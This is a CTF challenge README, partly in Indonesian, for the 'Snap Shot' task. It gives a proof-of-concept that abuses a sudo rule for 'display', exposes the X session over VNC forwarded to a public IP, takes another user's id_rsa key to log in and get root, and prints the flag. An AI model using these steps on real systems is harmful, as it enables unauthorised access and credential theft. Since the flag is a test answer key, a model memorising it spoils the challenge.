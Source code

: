 ## Judul Soal
Snap Shot

## Deskripsi Soal

> I was told by my someone that he bought me a gift. Unfortunately, I need to have a proper access to grab it <br><br>`nc port 22222`<br><br>Note: The service used Paramiko SSH module instead of traditional SSH prompt

---
## Proof of Concept

- Log in using CTFd account to get access to remote server
- By checking user privileges, we found that we can execute `display` as `joints` user
    ```sh
    $ sudo -l
    User user may run the following commands on 76a6f93ed1a9:
        (joints) NOPASSWD: /usr/bin/display
    ```
- Since there're no X11 Display, we need to create ones. Note, since it's using `paramiko` the `&` character may not work as expected. Fortunately, the command still executed
    ```sh
    $ Xvfb :4000 -listen tcp -ac -screen 0 512x512x24 &
    ```
- Since `display` only accept image binary, we need to download an image to the server
    ```sh
    $ wget -O test.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
    ```
- Execute `display` on `test.png` using `:4000` as virtual X11 display & `joints` user. These step can also be replaced by using an external remote display from a Public IP
    ```sh
    $ DISPLAY=:4000 sudo -u joints display test.png &
    ```
- Forward X11 display as VNC traffic
    ```sh
    $ x11vnc -display :4000 -bg -forever -nopw -quiet -listen localhost -xkb
    ```
- Then, simply forward VNC traffic to Public IP using `ngrok` or `SSH Forward`
- Connect to VNC remote server & using `File` prompt, go to `/home/joints/.ash_history` that contains a history of `id_rsa` being downloaded. There's also an `id_rsa` on `/home/joints/.ssh/id_rsa` but it can't be copy-paste-ed
- Download `id_rsa` from the external link & remote ssh as `joints` user from `localhost`. If we check the privileges again we found that `joints` user has privileges to execute `/root/get_flag`
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo -l

    User joints may run the following commands on 76a6f93ed1a9:
        (root) NOPASSWD: /root/get_flag
    ```
- Finally, just execute `/root/get_flag` using `joints` user
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo /root/get_flag

    JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
    ```
---

## Catatan deployment

Konfigurasi `docker` ada di directory `server`. Ganti `port` & limit mem-cpu sesuai kebutuhan.

Note, service nya masih hasil `trial & error`, jadi kemungkinan bisa broken sewaktu2 :'v

```sh
# Build
$ docker-compose build

# Deploy, kalo kena notif connection pool, run lagi :v
$ COMPOSE_PARALLEL_LIMIT=100 docker-compose --compatibility up -d
```

## Flag
JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
